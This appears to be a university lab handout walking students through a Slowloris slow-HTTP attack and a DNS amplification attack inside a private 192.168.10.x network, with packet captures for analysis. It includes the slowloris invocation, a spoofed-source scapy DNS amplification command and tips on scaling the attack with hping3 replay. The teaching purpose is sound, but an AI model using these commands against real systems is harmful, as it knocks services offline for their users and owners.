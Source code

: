 # 🖥 Lab 2B: Attack Generation(2)

continue from Attack Generation(1)

In lab 2B, we going to perform another 2 types of DDoS attack: SlowHttp and DNS Amplification.



## Slow Http Attack

In the CnC machine, ssh into one of the bots available:

| <p>#ssh 192.168.10.109 or 192.168.10.132</p><p>root@bot~# perl slowloris.pl -dns 192.168.10.112</p> |
| --------------------------------------------------------------------------------------------------- |

Wait 3\~5 minutes to see the effect. Stop this attack by hit Ctrl+C.

(Sometimes, you might see the effect on the webpage load time only after stopping the attack.)

\
DNS Amplification Attack
------------------------

DNS IP: 192.168.10.100

try: dig bighost.cu.ddos @192.168.10.100 +dnssec \
to see if DNS server works well.

First ssh to the host machine of the bot VM.\
Bot1: 192.168.10.109 Hosted on machine:192.168.10.21\
Bot2: 192.168.10.132 Hosted on machine:192.168.10.20\
Credentials posted on canvas before.\


Then capture the traffic(original request packets). The MAC address in the filter should be the MAC address of the host machine\
192.168.10.21 - f0:4d:a2:ea:6c:e5\
192.168.10.20 - f0:4d:a2:e9:a3:a9

| <p>$ssh usename@192.168.10.21(or 20)<br>$tshark -i enp2s0 -c 100 -f 'port 53 and not ether host f0:4d:a2:ea:6c:e5' -w {yourname}_bot_log.pcap -F libpcap</p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| (or the other MAC)                                                                                                                                           |



Then you can leave this terminal open until the DNS amplification attack is finished.&#x20;

Hit Ctrl+C to stop logging or wait until 100 packets are received.

Open another terminal and ssh into the victim’s host machine(192.168.10.22) and start capture traffic(amplified traffic) on victim machine(MAC:08:00:27:00:90:a6):

| $tshark -i enp2s0 -c 100 -f 'ether host 08:00:27:00:90:a6' -w {yourname}\_victim\_log.pcap -F libpcap |
| ----------------------------------------------------------------------------------------------------- |

You can leave this terminal open until the DNS amplification attack is finished.&#x20;

Hit Ctrl+C to stop logging or wait until 100 packets are received.

Then ssh into one of the bots from CnC machine and open scapy:

| <p>#ssh 192.168.10.109<br>root@bot~:# scapy<br>>>></p> |
| ------------------------------------------------------ |

Execute the following command in the scapy shell to launch a DNS amplification attack:

| >>> send(IP(src="192.168.10.112", dst="192.168.10.100")/UDP(dport=53)/DNS(qd=DNSQR(qname="bighost.cu.ddos"), ar=DNSRR(rrname=".", type=41, rclass=4096, ttl=32768)),count=10,inter=0.01,verbose=False) |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

To exit scapy:

| >>> exit() |
| ---------- |

Or Ctrl+D

This attack might not show change in the webpage load time necessarily for you, but you can analyze the pcap log file you created on the victim and the attacker host to compare the traffic. There should be a clear difference between the two.

Hint: the number of DNS queries and the corresponding number of responses are expected to be different. Find other differences in your analysis as well.&#x20;

In addition to analyzing the traffic on wireshark, you can also read the file using tshark by running the following command on your machine:

| tshark -r \<filename> |
| --------------------- |

You should be able to compare the data of the two files to observe DNS Amplification.&#x20;



## Lab Report:

Due date given in Canvas Syllabus

Make sure you did your lab by yourself, not under other students help.\


## Appendix

Slow HTTP

The slow HTTP attack sonsumes victim webpage server by slowly sending HTTP requests. The HTTP server keeps the connection until all the webserver’s resources are consumed. That is why the slowloris attack does not affect at the very beginning but slowly makes the web server stop responding.

* Slowloris HTTP DoS [https://web.archive.org/web/20090822001255/http://ha.ckers.org/slowloris/](https://web.archive.org/web/20090822001255/http://ha.ckers.org/slowloris/)

\


DNS Amplification Attack

There are many DNS amplification attack tools available on Github. Many of them are written in python with scapy library. However, scapy is naturally very very slow. Using scapy to perform DNS amplification attacks might work when you have multiple bots and more DNS servers. As a hint, hping3 is not capable of crafting a DNS request packet, but it can be used to replay a crafted DNS payload. You can simply use dig to generate a legitimate DNS packet first, store the DNS payload only, and then send the DNS payload with a spoofed source. By using hping3, you will see the limit of a DNS server, and why the victim is not disconnected during an attack.&#x20;

* Honeypot Based monitoring of Amplification DDoS attacks.

[https://labs.ripe.net/Members/johannes\_krupp/honeypot-based-monitoring-of-amplification-ddos-attacks](https://labs.ripe.net/Members/johannes\_krupp/honeypot-based-monitoring-of-amplification-ddos-attacks)

\
